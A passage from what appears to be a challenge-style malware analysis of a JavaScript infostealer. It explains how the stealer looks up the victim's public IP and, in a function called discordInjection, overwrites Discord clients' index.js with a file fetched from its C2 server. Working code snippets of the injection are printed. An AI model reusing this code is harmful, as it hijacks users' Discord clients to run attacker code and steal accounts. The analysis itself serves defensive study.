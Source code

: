 
The other thing it does towards the top is call `discordInjection`, which I’ll
cover in the next section.

At the top, it also makes a request to <https://ipinfo.io/json>, which returns
information about the local computer’s public IP (Task 6).

When there’s POSTs of information to the C2, the `userr_id` from the
configuration is sent as the `duvet_id` (Task 8).

### Discord

#### Modify App

`discordInjection` is called from `newInjection` in the first of the three
blocks of main code. It loops over three folders in the AppData directory,
`Discord`, `DiscordCanary`, and `DiscordPTB`:

    
    
    async function discordInjection() {
        const infectedDiscords = [];
    
        [join(process.env.LOCALAPPDATA, 'Discord'), join(process.env.LOCALAPPDATA, 'DiscordCanary'), join(process.env.LOCALAPPDATA, 'DiscordPTB')]
        ?.forEach(async(dir) => {
    ...[snip]...
        });
    
        return infectedDiscords;
    };
    

For each, if it exists, it looks for a folder starting with `app-`, and in it
`modules` and in that `discord_desktop_core-1`:

    
    
            if(existsSync(dir)) {
                if(!readdirSync(dir).filter((f => f?.startsWith('app-')))?.[0]) return;
                const path = join(dir, readdirSync(dir).filter((f => f.startsWith('app-')))?.[0], 'modules', 'discord_desktop_core-1');
                const discord_index = execSync('where /r . index.js', { cwd: path })?.toString()?.trim();
    

If that exists, it adds it to the `infectedDiscords` list and requests a new
replacement file from the C2, writing it over the original `index.js` file:

    
    
                
                if(discord_index) infectedDiscords?.push(
                    dir?.split(process.env.LOCALAPPDATA)?.[1]?.replace('\\', '')
                );
    
                const request = await fetch(options.api + 'injections', {
                    method: 'GET',
                    headers: {
                        duvet_user: options?.user_id,
                        logout_discord: options?.logout_discord
                    }
                });
    